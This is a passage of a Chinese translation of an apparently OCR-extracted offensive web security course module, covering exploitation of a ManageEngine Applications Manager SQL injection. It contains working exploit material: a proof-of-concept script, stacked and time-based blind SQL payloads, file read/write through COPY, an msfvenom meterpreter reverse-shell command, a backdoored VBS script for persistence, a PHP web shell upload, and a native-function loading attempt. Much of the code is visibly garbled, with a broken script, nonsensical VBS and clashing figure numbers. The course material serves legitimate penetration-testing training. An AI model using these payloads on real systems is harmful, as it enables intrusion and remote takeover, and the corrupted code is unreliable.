

图 102: `pgAdmin` 前端

要对 `pg_catalog` 数据库运行 SQL 查询，请加载 `pgAdmin` 并连接到本地 `ManageEngine` 服务器实例。

请参考您的课程材料以找到相应的凭据。

在 `pgAdmin` 中，我们可以执行如图 103 所示的任何语句。

# 高级网络攻击与利用


图 102: 使用查询工具



图 103: 使用查询工具



图 104: 使用查询工具



图 105: 使用 `psql.exe` 与数据库交互

### 5.3.5 触发漏洞

当源代码可用时，分析源代码将大大加速对任何限制的发现和理解。尽管如此，为了这样做，我们必须触发漏洞以取得进展。在我们的分析中，我们确定要到达漏洞查询，请求中只需要两个参数，即 `ForMasRange` 和 `userid`。

将所有信息组合在一起，我们的初始请求如下：

```
GET /manage/AMUserResourcesSyncServlet?ForMasRange=1&userid=1; HTTP/1.1
Host: manageengine:8443
```

注意上面的请求使用分号执行了基础注入。之所以这样做是因为我们已经知道了漏洞查询的样子（列表 166），并且我们知道它不包含任何引号字符串。因此，尝试用分号终止查询应该是有效的。

```java
String query = "select distinct (RESOURCE) FROM AM_USERRESOURCEABLE
where USERID=" + userId + " and RESOURCE=" + strRange + " and
RESOURCE = ' " + endrange;
```

列表 166 - 代码中的 SQL 查询。注意没有需要转义的引号。

# 攻击性安全

```python
print("+) %s target" % sys.argv[0])
sys.exit(1)
t = sys.argv[1]
sqli = ",
r = requests.get('http://%s:8443/servlet/AMUserResourcesSyncServerlet' % t,
    params='ForMasRange=1&userID=%s' % sqli, verify=False)
print(r.text)
print(r.headers)
if __name__ == '__main__':
    main()
```

> 列表 167 - 触发漏洞的示例概念证明

当我们通过 `Burp` 或简单的 `Python` 脚本（列表 167）触发请求时，我们得到的响应并不冗详尽。事实上，正如 `Content-Length` 为 0 所示，该响应几乎是空的。

```http
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID_APM_9090=A5EF015BA016EA342E8B6F20B8FB863;
Path=/; Secure; HttpOnly
Content-Type: text/html;charset=UTF-8
Content-Length: 0
Date: Sat, 26 Nov 2018 08:57:40 GMT
```

> 列表 168 - SQL 注入 GET 请求的 HTTP 响应

在黑盒的情况下，这一点值得注意：我们几乎没有办法知道存在 SQL 注入漏洞。HTTP 服务器没有传递任何冗详的错误、POST 体更改或 500 状态码。换句话之，初看似乎没问题。

然而，当我们查看位于 `C:\Program Files (x86)\ManageEngineAppManager1\logs\data\amdb\pgsql.log` 的上述日志文件时，我们看到了一个明显的 SQL 注入错误信息。

```sql
2018-04-21 03:33:39.928 GMT :LOG: executed=<anonymous>: select (RESOURCEID)
FROM AM_USERRESOURCE WHERE USERID=-1 ERROR: syntax error at or near "and" at character 2
2018-04-21 03:33:39.928 GMT :STATEMENT: and RESOURCEID >1 and RESOURCEID < 10000001
```

> 列表 169 - 注入的 "*" 破坏了 SQL 查询，证实了漏洞的存在

在我们继续提供关于此特定漏洞的更多细节之前。在我们目标 Web 程序的全新安装中，漏洞查询中使用的数据表（`AM_USERRESOURCE`）不包含任何数据。在在这种情况下，如果我们只尝试注入微不足道的有效负载（payload），可能会导致误导性或不完整的结果。让我们看看为什么。

# 高级 Web 攻击与利用

如果我们仔细观察，可以看到对于注入的有效负载类型，我们有几种选择。一种方法是使用 `UNION` 查询直接从数据库提取数据。然而，我们需要注意，原始查询中引用的 `RESOURCEID` 列被定义为 `BIGINT` 数据类型。换句话，只有当数据类型相同时，我们才能提取任意数据。

```sql
select distinct(RESOURCEID) FROM AM_USERRESOURCESTABLE WHERE USERID=1 UNION SELECT
```

列表 170 - 简单的 `UNION` 注入有效负载

另一个选项是使用带有布尔盲注的 `UNION` 查询。类似于我们在 `ATutor` 中已经看到的，我们可以构造注入的查询，来提问一系列 `TRUE` 和 `FALSE` 问题，并以这种方式推断我们正尝试提取的数据。

```sql
select distinct(RESOURCEID) FROM AM_USERRESOURCESTABLE WHERE USERID=1 UNION SELECT
CASE WHEN (SELECT 1)=1 THEN 1 ELSE END
```

列表 171 - 使用 `UNION` 和布尔条件的注入有效负载

我们没有考虑这种方法的原因是，`Postgres` SQL 注入攻击的优点之一是它们允许攻击者执行堆叠查询（stacked queries）。这意味着我们可以像列表 165 所示的那样，在有效负载中使用查询终止符字符，并向原始查询字符串中注入一个完全新的查询。这使得利用变得容易得多，因为注入点或有效负载都不受漏洞查询性质的限制。

堆叠查询的缺点是它们会返回多个结果集。这可能会破坏应用程序的逻辑，并无法通过基于布尔的攻击来利用数据。不幸的是，这正是我们的 `ManageEngine` 应用程序发生的情况。当使用堆叠查询时，应用程序日志（`C:\Program Files (x86)\ManageEngineAppManager1\stdout.txt`）中的错误信息如下：

```text
[30 Nov 2018 07:40:23] SYS_OUT:ConnectionPool : Error executing query select distinct(RESOURCEID) FROM AM_USERRESOURCESTABLE WHERE USERID=1;SELECT (CASE
WHEN (1-1) THEN 1 ELSE END) -- RESOURCEID=1 AND RESOURCEID < 10000001. Error
Message : Multiple ResultSets were returned by the query.
```

列表 172 - 使用带有布尔有效负载的堆叠查询会导致应用程序逻辑崩溃

为了解决这个问题并能够使用堆叠查询的灵活性，我们必须求助于基于时间的盲注的有效负载。

在确认盲注的情况下，我们将使用 `pg.sleep` 函数，如文所示。

```http
GET /servlet/AMUserResourcesSyncServerlet?ForMasRange=1&userID=1' AND pg_sleep(10)--
```

列表 173 - 使数据库睡眠 10 秒

# 攻性安全
`www.offensive-security.com`

## 5.4.1 使用 CHR 和字符串拼接

我们可以绕过引号限制的方法之一是使用 `CHR` 拼接语法。例如，在大多数情况下，我们可以使用字符代码点（数字代表字符）选择单个字符，并使用双管道符 `||` 运算符将它们拼接在一起。

```
ambd=# SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
?column?
AWAE
(1 row)
```

列表 178 - 使用 `char` 函数避免引号

问题是，字符拼接仅适用于 `SELECT`、`INSERT`、`DELETE` 等基础查询，并不并不所有的 SQL 语句。

```
ambd=# CREATE TABLE AWAE (offsec text); INSERT INTO AWAE (offsec) VALUES
(CHR(65) || CHR(87) || CHR(65) || CHR(69));
CREATE TABLE
INSERT ø 0
amb=# SELECT * from AWAE;
offsec
AWAE
(1 row)
```

列表 179 - 这是有效的语法

在上面的示例中，SQL 语句清晰且成功地向 "AWAE" 插入了一条包含单列文本列的记录。然而，如果我们尝试执行一个函数，查询将失败。例如，这里是使用 `CHR` 写入文件的 `COPY` 函数：

```
CREATE TABLE AWAE (offsec text);
INSERT INTO AWAE (offsec) VALUES (CHR(65) || CHR(87) || CHR(65) || CHR(69));
COPY AWAE (offsec) TO
CHR(99) || CHR(58) || CHR(92) || CHR(92) || CHR(87) || CHR(58) || CHR(92) || CHR(69));
ERROR: syntax error or near "CHR"
LINE 3: COPY AWAE (offsec) TO CHR(99) || CHR(58) || CHR(92) || CHR(92) || CHR...
A
```

列表 180 - 使用 `CHR` 函数写入文件 `c:\AWAE` 失败

虽然 `CHR` 函数在处理不可打印字符时非常有帮助，但我们需要找到更好的方法来绕过那些需要使用 `PostgreSQL` 函数（如 `COPY`）的情况下的引号限制。

⁵¹ https://www.postgresql.org/docs/9.1/static/string-functions

⁵² https://en.wikipedia.org/wiki/Code_point

AWAE Copyright © 2019 Offense Security Ltd. All rights reserved. 172

## 5.4.2 它在词法上是合理的

在花了一些时间阅读与词法结构¹相关的 `PostgreSQL` 文档后，我们注意到 `PostgreSQL` 语法也允许美元符号引用字符串常量（dollar-quoted string constants）。它们的目的是为了更容易读取包含字面量引号的语句。

本质上，两个美元符号 (`$$`) 可以单独作为引号 `''` 的替代品，或者一个美元符号 (`$`) 可以指示一个“标签”的开始。标签是可选的，可以包含零或多个字符，并以匹配的美元符号 (`$`) 结束。如果使用了标签，则在字符串末尾需要该标签。

结果，以下语法示例在 `PostgreSQL` 中产生完全相同的结果：

```
SELECT 'AAVE';
SELECT $$AAVE$$;
SELECT $TAGAAVE$$;
```

> 列表 181 - 使用美元引用字符串常量。注意第三条 SQL 语句中可选标签 `TAG` 的使用

这允许我们绕过之前在下列表中所示的我们遇到的引号限制。

```
CREATE TEMP TABLE AAVE(offsec text);INSERT INTO AAVE(offsec) VALUES ($$offsec$$);
COPY AAVE(offsec) TO $$C:/Program Files (x86)/PostgreSQL/9.2/data/test.txt$$;
COPY 1
```

查询在 201毫秒内成功返回。

> 列表 182 - 使用美元引用字符串常量绕过引号限制

## 5.5 堆叠查询 (Bind Bats)

现在我们已经从理论上理出了所有的工具和方法，让我们尝试攻击应用程序，并使用未终止的查询来理解攻击者提供的输入中的局限性。然而，在我们借助 `pg.sleep` 函数测试盲注 SQL 注入漏洞时，我们已经简要展示了如何在有效负载中使用堆叠查询。

作为提醒，下面的 GET 请求显示了如何利用漏洞 `AMUserResourcesSyncServerlet` 来执行任意查询。

```
GET /servlet/AMUserResourcesSyncServerlet?ForRange=1&userid=1<some query>;--+
HTTP/1.0
Host: manageengine:8443
```


> 列表 183 - 通过堆叠查询执行任意 SQL 语句的能力

[^1]: 1. https://www.postgresql.org/docs/9.2/sql-syntax-lexical.html

既然我们现在可以绕过引号限制并能够执行任意查询，那么验证漏洞应用程序运行时使用的数据库权限将非常有帮助。如果应用程序以数据库管理员 (`DBA`) 权限运行，这将非常重要，我们将获得更强大的功能权限，例如与文件系统交互的能力，并可能加载第三方 PostgreSQL 扩展（原生 `C++` 代码）。更多信息请参阅...

## 5.6 访问文件系统

虽然访问 ManageEngine 数据库是一项成就，但我们是在数据库用户的权限下操作的。因此，我们拥有的比简单提取数据库信息强大得多的功能。

在这些情况下，使用 `copy` 通常是为了获取系统访问权限。在支持的情况下，其他选项是执行系统命令或自定义代码。让我们探索这些选项。为了访问文件系统，我们需要开发一个不同且有效的注入查询。再次，我们将利用执行堆叠查询的能力。

如果你还记得，我们已经在之前的示例中使用过名为 `COPY` 的 PostgreSQL 函数。该函数允许我们读取或写入文件系统，如下所示：

| 命令 | 说明 |
| --- | --- |
| `COPY <table_name> from <file_name>` | 列表 186 - 从文件读取内容 |
| `COPY <table_name> to <file_name>` | 列表 187 - 向文件写入内容 |

`COPY` 函数背后的思想是通过数据库和文件导入导出数据。然而，这是一个宽松的定义，在 `COPY TO` 的情况下，我们不需要有效的名称。我们可以执行查询来返回任意内容。下面的查询演示了这一点：

```sql
COPY (select $$awae$$ to <file_name>)
```
列表 188 - 使用子查询返回有效数据以便 `COPY` 操作写入文件

由于我们有堆叠查询，读取文件也是可能的，尽管稍微复杂一些。这将我们创建一个表，从文件选择数据到该表，选择表的内容，然后删除表。此类操作的语法完整如下：

```sql
CREATE temp table awee (content text);
COPY awee from c:\awae.txt;
SELECT from awee;
DROP table awee;
```
列表 189 - 从文件 `C:\awae.txt` 读取内容

我们可以如下所示在基于时间的查询中实现此攻击：

```http
GET /servlet/AMUserResourceSyncServlet?ForMasRange=1&userID=1;create+temp+table+awae=(context=text);copy+awae+from$$@awae.txt);select+case+when(ascii(substr(select+concat+awae,1,1))=104)--+pg_sleep(10);--+HTTP/1.0
Host: manageengine:8443
```

列表 190 - 读取 `c:\awae` 第一个字符并与字母 `"h"` 进行比较的技巧。如果字母是 `"h"`，则睡眠 10 秒。

注意，当我们使用堆叠查询（stacked queries）时，我们无法直接从服务器的响应中读取数据。因此，请求将再次使用基于时间的逻辑来推断数据。如果比较结果为真，查询将睡眠 10 秒。使用这种技术，我们可以提取任何文件的内容。

注意在这种情况下，我们是如何利用 `substr` 和 `ascii` 函数的。虽然辅助函数帮助我们按字节读取文件内容，但后者确保了我们避免了任何文本编码/解码问题。这对于读取二进制文件特别重要。

进一步利用文件系统交互的理念，我们的下一个目标是远程写入目标文件系统。让我们编写一个在漏洞服务器的 `C:\` 盘上写入文件的查询：

```sql
COPY (SELECT $$offsec$$) TO $$c:\offsec.txt$$
```

列表 191 - 写入 `c:` 磁盘的简单查询

我们可以将其转换为以下内容：

```http
GET /servlet/AMUserResourceSyncServlet?ForMasRange=1&userID=1;COPY+(SELECT+$$offsec$$)+to$$$c:\offsec.txt$$;--+HTTP/1.0
Host: manageengine:8443
```

列表 192 - 使用 SQL 注入漏洞写入文件系统

我们现在需要做的就是检查目标的 `C:\` 目录是否存在 `offsec.txt` 文件。如图 108 所示，看起来我们已经成功了！




图 18：以 `SYSTEM` 身份运行任务文件系统。

注意，我们不仅是以 `DBA` 身份运行，而且 Web 应用程序也在 `SYSTEM` 上下文中运行！

### 5.6.1 练习

- 使用你所学的知识，在你的 Python 脚本中实现一个 SQL 注入查询，向目标系统写入一个文件。
- 看看是否可以使用 `COPY TO` 技术向文件写入二进制数据。为什么这可能不起作用？

### 5.6.2 通过 Copy TO 获取反向 Shell

现在我们已经证明了可以在系统的任何地方写入文件，我们可以尝试利用这种能力获取反向 shell（reverse shell）。可能的攻击之一是覆盖 ManageEngine 应用程序使用的现有批文件（batch file）。其思路是将我们的恶意代码插入到会被 ManageEngine 应用程序执行的批文件中。由于这不是我们的首选方案，我们将此留给读者练习。

一种更优雅的方法是在 ManageEngine 应用程序在正常运行期间使用的 `VBS` 文件中引入恶意代码。具体来说，当 ManageEngine Application Manager 被配置为监控远程服务器和应用程序时（毕竟这是它的工作），会定期执行许多 `VBS` 脚本。这些脚本位于 `C:\Program Files(x86)\ManageEngine\AppManager12\working\conf\scripts` 目录，并根据功能而异。

在继续之前，我们需要确保确实至少有一个针对 Windows 系统的监控实例。为了这个练习，我们针对 ManageEngine 节点本身创建了一个监控。


图 109：应用程序管理器监控


图 110：监控轮询时间设置为 1 分钟

如果我们在目标主机上使用带有 `VBS` 路径过滤的 Sysinternals Process Monitor 工具，我们可以看到定期执行的文件之一是 `wget.vbs`。执行频率取决于为给定的 Application Manager 监控实例安装时的轮询时间。



图 111：Process Monitor 可以帮助识别 Application Manager 使用哪些 `VBS` 脚本

由于我们知道该脚本是由应用程序执行的，我们可以生成一个解释器反向 shell 脚本并插入文件末尾。目标 `VBS` 脚本执行的任务对我们并不重要。然而，我们想确保原始功能得以保持。我们需要记住的几点：

1. 完成此后，我们需要对目标文件进行备份。
2. 我们必须对负载进行编码，因为 `COPY` 无法处理换行符。
3. 出于相同的原因，我们的负载必须是单行的。
4. 由于负载大小的原因，我们需要使用 `POST` 请求，因为它超过了 `GET` 请求处理的限制。这不是问题。我们注入的通用查询看起来如下：

```sql
select convert_from($ENCODED_PAYLOAD, $base64) >> 'C:\Program Files(x86)\AppManager12\working\conf\scripts\wget.vbs'
```

列表 193 - 我们注入的查询结构

由于负载大小的原因，我们需要使用 `POST` 请求，因为它超过了 `GET` 请求处理的限制。这不是问题，正如我们所看到的，`doPost` 函数调用了 `doGet` 函数。

在整合所有部分之前，让我们在 Kali 上使用以下命令生成一个 meterpreter 反向 shell：

```bash
msfvenom -a x86 -platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.209 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```

列表 194 - 生成 `VBS` 反向 shell

提醒，这是原始 `wget.vbs` 的样子。

```vbs
' 获取 WMI 对象
On Error Resume Next
Set objWbemLocator = CreateObject("WScripting.SwbemLocator")

If Err.Number <> 0 Then
    WScript.Echo "Error #" & vbCrLf & " " & Err.Description
End If

On Error GoTo 0
On Error Resume Next

' 如果没有错误获取机器名、用户名和密码
Select Case Wscript.Arguments.Count
Case 2
    strComputer = Wscript.Arguments(0)
    Query = Wscript.Arguments(1)
    Set swServices = objWbemLocator.ConnectServer(strComputer,"Root\CIM2")

Case 4
    strComputer = Wscript.Arguments(0)
    strUserName = Wscript.Arguments(1)
    strPassword = Wscript.Arguments(2)
    strQuery = Wscript.Arguments(3)
    Set swServices = objWbemLocator.ConnectServer(strComputer,"Root\CIM2",strUserName,strPassword)

Case 6
    strComputer = Wscript.Arguments(0)
    strUserName = Wscript.Arguments(1)
    strPassword = Wscript.Arguments(2)
    strQuery = Wscript.Arguments(4)
    namespace = Wscript.Arguments(5)
    'namespace="RootVirtualization"
    Set swServices = objWbemLocator.ConnectServer(strComputer,namespace,strUserName,strPassword)

Select
```

图 112：`VBS` 原始文件

最后，生成的文件应该类似于所示：

```vbs
On Error Resume Next:Set objRemoteName:=Set objWemLocator = CreateObject("WScripting.ServiceLocation"):If Err.Number Then WScript.Echo vbCrLf & "Error: " & Err.Description:If Err.Number <> 0 Then GoTo ErrorHandler
Set objComputer:Set objWemService = objWemLocator.ConnectServer(WScript.Arguments(0),Case WScript.Arguments(1),"root\\$cimv2"): Case 4
Set objComputer = CreateObject:Set objWemService = objWemLocator.ConnectServer(strComputer,"root\\$cimv2"): Case 4
Set objWemService = WScript.Arguments(2):Set objRemoteName = objWemService.Name,namespace
Set objRemoteName = WScript.Arguments(3):Set objWemService = objWemLocator.ConnectServer(strComputer,"root\\$cimv2")
Set objRemoteName = WScript.Arguments(4):Set objWemService = objWemLocator.ConnectServer("root\\$cimv2")
Set objWemService = WScript.Arguments(5):Set objRemoteName = objWemService.Name,namespace
Set objRemoteName = WScript.Arguments(6):Set objWemService = objWemLocator.ConnectServer(strComputer,"root\\$cimv2")
Set objRemoteName = WScript.Arguments(7):Set objWemService = objWemService
WScript.Echo vbCrLf & "Error: " & Err.Description:If Err.Number <> 0 Then GoTo ErrorHandler
Set objWemService = WScript.Arguments(8):Set objRemoteLocator.Connect
Set objWemService = WScript.Arguments(9):Set objRemoteName = objWemService.Name,namespace
For each item in objWemService.ExecMethod("Win32_Process.Create",Array(WScript.Arguments(10)))
For each parameter in item.OutParameters
WScript.Echo parameter.Value
Next
For each item in objWemService.ExecMethod("Win32_Process.Create",Array(WScript.Arguments(11),.Arguments(12))
WScript.Echo "Success!" & Base64Decode(Chr(34) & Chr(38) & ".base64(" & Chr(34) & Chr(38) & ")"))
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```


# 高级 Web 攻击与利用

## 5.6 持续性与扩展

### 注入 VBS 文件

`ErrorHandler: `

```text
图 13：注入的 VBS 文件的最终版本
```

一旦我们从目标服务器通过在命令行执行手动测试了注入的文件，并确保我们收到了反向 shell（reverse shell），我们就可以将 VBS 文件的内容传输到我们的 Kali 机器了。然后，我们使用 `Burp Suite` 的解码功能对我们的有效负载进行 URL 编码并触发它。在此之前，我们需要确保 `Manager Service` 已恢复到其原始版本，这样我们就可以验证 SQL 注入确实生效了。

如果一切都如计划进行，在图 10 中设置的时间一分钟后，我们将看到如下所示的反向 shell。

```text
root@kali:~ 168x11
# exploit(handler) >
[*] Sending attack (177979 bytes) to 192.168.2.200
[*] Meter session session11 opened (192.168.2:4444 -> 192.168.2:53657) at 2018-05-18 11:02:33 -0600
sessions : i 11
[*] Starting interaction with 11...

meterpreter > getuid
meterpreter > getsystem
AUTHORITY\SYSTEM
meterpreter >
```



| Repeater | Proxy | Spider | Scanner | Extender | Project options | User options | Alerts |
|---|---|---|---|---|---|---|---|
| Repeater | Sequencer | Decoder | Comparator | | | | |
| 1 | | | | | | | |

**Request | Parameters | Hex**

```text
POST /Resources/AmUser/SyncServlet HTTP/1.1
Host: 192.168.2.208
User-Agent: Mozilla/5.0 (X11; Linux; x86_64; rv:52)
Gecko/2010101 Firefox/52.0
Accept: text/html,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Request: 
Cache-Control: max-age=0
Content-Type: application/x-form-urlencoded
Content-Length: 12
```

**Response | Headers | Hex**

```text
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: SESSIONID=AMP_9000=I519D20BCC146F4FCB12826FF04; Path=/
Content-Type: text/html;charset=UTF-8
Content-Length: 0
Date: Fri, 18 May 2018 16:56:12 GMT
```

```text
Form-data; boundary=----------------66662222
--------------------------------6662222
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']); ?>
--------------------------------6662222
```

```text
图 14：反向 shell 是一个带有后门的 VBS 文件
```

这种攻击的一个很好的特点是它还具有持久性。然而，这种方法可能不可靠，因为它特定于 Windows 主机上的 `ManagerEngine` 安装。正如此，我们将在模块的剩余部分描述一种更通用的方法。

### 5.6.3 练习

- 1. 覆盖在 `Application Manager` 启动时执行的批文件并获取反向 shell。是否可以在不损坏应用程序的情况下实现？记住对要覆盖的批文件进行备份。
- 2. 重新创建损坏的 `BBS` 攻击向量并获取反向 shell。
- 3. 使用你任的 `Python` 工具实现 `VBS` 攻击。

### 5.6.4 额外挑战

至少还有一种额外的攻击向量，涉及 `Java` 类文件的操作和 `JSP` 文件的使用。虽然这并不简单，但是可以实现的。看看你是否能找到并利用这个额外的攻击向量。

## 5.7 PostgreSQL 扩展

虽然我们之前关于后门应用程序脚本的示例可以说是非常优雅，但它依赖于存在一个适用于该向量的应用程序文件，即一个由 Web 应用程序执行的文件。由于情况并不总是如此，我们需要调查实现我们目标的其他替代方法。例如，可能可以通过加载数据库扩展来定义我们自己的 `SQL` 函数，从而允许我们获得远程代码执行。

在阅读 `Postgres` 文档后，我们了解到可以使用以下语法加载扩展：

```sql
CREATE OR REPLACE FUNCTION test(text) RETURNS AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
```

**列表 195 - 从本地库创建函数的基本 SQL 语法**

然而，有一个重要的限制需要我们记在心中。我们想要加载的编译扩展必须定义适当的 `Postgres` 结构（魔数块，`magic block`），以确保动态库不会被加载到不兼容的服务器中。

如果目标库没有这个魔数块（所有标准系统库都是如此），那么加载过程将失败。

让我们来看一个例子：

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS INT AS
'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C;

SELECT system('hostname');
```

**列表 196 - 尝试加载 Windows DLL**

```text
ERROR: incompatible library 'c:\Windows\System32\kernel32.dll': missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.
```

如图所示，加载过程失败意味着我们需要编译一个自定义的动态库。虽然这听起来很困难，但我们很快就会发现它在我们的易控范围内。

### 5.7.1 构建环境

我们的 `ManageEngine` 虚拟机带有一个预先配置的 `Visual Studio 2017` 构建环境。让我们从打开 `awae` 项目开始，你应该在 `Visual Studio` 右下角的“最近解决方案”窗格中看到它（图 115）。

```text
# 高级 Web 攻击与利用
# 启动 - Microsoft Visual Studio (管理员)
文件 编辑 查看 项目 调试 工具 测试 分析 窗口 帮助
```



```text
# 开始上手
从远程版本控制系统获取代码或在本地驱动器上打开内容。
初次使用 Visual Studio？查看教程和示例项目
为你的项目获取新框架、语言和技术的培训
从此处 检出：
为你的项目创建一个新的私有代码库
- Visual Studio Team Services
- 打开项目 / 解决方案
- 打开文件夹
- 打开网站
查看使用云服务是多么简单
发现扩展和自定义 IDE 的方法

# 最近
# 新项目
固定
最近使用的项目模板：

> awae.sln
C:\Users\Administrator\source\repo\awae\...
- 空项目
- C++

> Solution.sln
C:\Users\Administrator\source\repo\Solution\S...
创建新项目...

图 115：“最近解决方案”中的 awae 项目。

AWAE
Copyright © 2019 Offsec Services Ltd. 保留所有权利。
185
```

